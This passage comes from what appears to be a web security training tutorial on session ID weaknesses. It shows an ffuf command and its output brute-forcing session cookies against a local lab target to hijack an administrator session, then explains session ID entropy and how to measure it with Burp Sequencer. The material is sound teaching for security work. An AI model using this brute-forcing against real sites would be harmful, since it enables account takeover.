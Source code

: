 We can now use `ffuf` to fuzz all valid session IDs:

```shell
ffuf -u http://127.0.0.1/profile.php -b 'sessionID=FUZZ' -w wordlist.txt -fc 302 -t 10

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1/profile.php
 :: Wordlist         : FUZZ: wordlist.txt
 :: Header           : Cookie: sessionID=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

a7sh                    [Status: 200, Size: 2262, Words: 497, Lines: 67, Duration: 6ms]

```

We found another valid session ID. After using it in Burp, we can see that we have successfully taken over the administrator's session:

![image](T8BQ8Jmt5tpz.png)

* * *

## Insufficient Randomness in Session IDs

Additionally to being sufficiently long, session IDs need to be sufficiently random. If the randomness is insufficient or there are detectable patterns in the session IDs, an attacker might be able to brute-force other users' session IDs like before. Randomness is generally measured using `entropy`. To be considered secure, session IDs should provide at least 64 bits of entropy according to [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#session-id-entropy).

If we log in to the web application, we can see that the server sets a sufficiently long session ID that looks random:

![image](Vg63mxUNv55E.png)

To analyze the entropy of session IDs, we can use `Burp Sequencer`. To do so, we right-click the login request in Burp and click on `Send to Sequencer`. Afterward, switch to the Sequencer Tab. Make sure that Burp automatically detected the session cookie in the `Token Location Within Response` field and that the `Cookie` option is selected. We could also specify a custom location if we wanted to analyze the entropy of a different field in the response. Afterward, start the live capture.
